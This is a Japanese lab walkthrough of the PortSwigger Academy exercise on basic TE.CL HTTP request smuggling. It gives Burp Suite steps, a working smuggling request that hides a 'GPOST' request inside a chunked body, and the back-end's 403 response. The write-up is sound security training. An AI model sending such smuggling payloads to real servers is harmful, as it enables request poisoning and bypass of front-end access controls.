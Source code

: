 # HTTP リクエストの密輸、基本的な TE.CL の脆弱性

以下のハッキングラボを実施します  
https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl  
このラボにはフロントエンド サーバーとバックエンド サーバーが含まれますが、バックエンド サーバーはチャンク エンコーディングをサポートしていません。フロントエンド サーバーは、GET メソッドまたは POST メソッドを使用しないリクエストを拒否します。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. GET / リクエストを send to repeater します
- 4. Repeater のリクエストを表示した状態で右クリックして change to request を選択して、POST リクエストに切り替えます

* 5. Setting で Repeater の Update content length のチェックボックスを外します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/8b1031a6-e20f-4f61-b906-8b54d6d8a882)

* 6. リクエストを以下のように書き換えて 2 回送信します

```
POST / HTTP/1.1
Host: 0a98006704a74a8b8537d6020056004f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

2 回目のレスポンスがバックエンドから返されます

```
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

フロントエンドは chunked により、92 文字のペイロードを受け取り、バックエンドは Content-length: 4 の GPOST を受け取ります。
